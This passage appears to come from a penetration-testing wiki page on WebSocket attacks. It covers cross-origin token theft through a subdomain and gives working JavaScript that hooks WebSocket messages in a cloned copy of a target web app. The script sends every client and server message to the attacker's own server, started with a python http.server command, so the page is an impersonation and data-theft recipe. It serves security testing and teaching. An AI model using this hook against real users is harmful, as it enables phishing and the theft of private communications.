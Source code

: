 ### Cross Origin + Cookie with a different subdomain

In this blog post [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) the attacker managed to **execute arbitrary Javascript in a subdomain** of the domain where the web socket communication was occurring. Because it was a **subdomain**, the **cookie** was being **sent**, and because the **Websocket didn't check the Origin properly**, it was possible to communicate with it and **steal tokens from it**.

### Stealing data from user

Copy the web application you want to impersonate (the .html files for example) and inside the script where the websocket communication is occurring add this code:

```javascript
//This is the script tag to load the websocket hooker
<script src="wsHook.js"></script>;

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function (data, url) {
  var xhttp = new XMLHttpRequest();
  xhttp.open("GET", "client_msg?m=" + data, true);
  xhttp.send();
};
wsHook.after = function (messageEvent, url, wsObject) {
  var xhttp = new XMLHttpRequest();
  xhttp.open("GET", "server_msg?m=" + messageEvent.data, true);
  xhttp.send();
  return messageEvent;
};
```

Now download the `wsHook.js` file from [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) and **save it inside the folder with the web files**.\
Exposing the web application and making a user connect to it you will be able to steal the sent and received messages via websocket:

```javascript
sudo python3 -m http.server 80
```

## Race Conditions

Race Conditions in WebSockets are also a thing, [check this information to learn more](race-condition.md#rc-in-websockets).

## Other vulnerabilities

As Web Sockets are a mechanism to **send data to server side and client side**, depending on how the server and client handles the information, **Web Sockets can be used to exploit several other vulnerabilities like XSS, SQLi or any other common web vuln using input of s user from a websocket.**
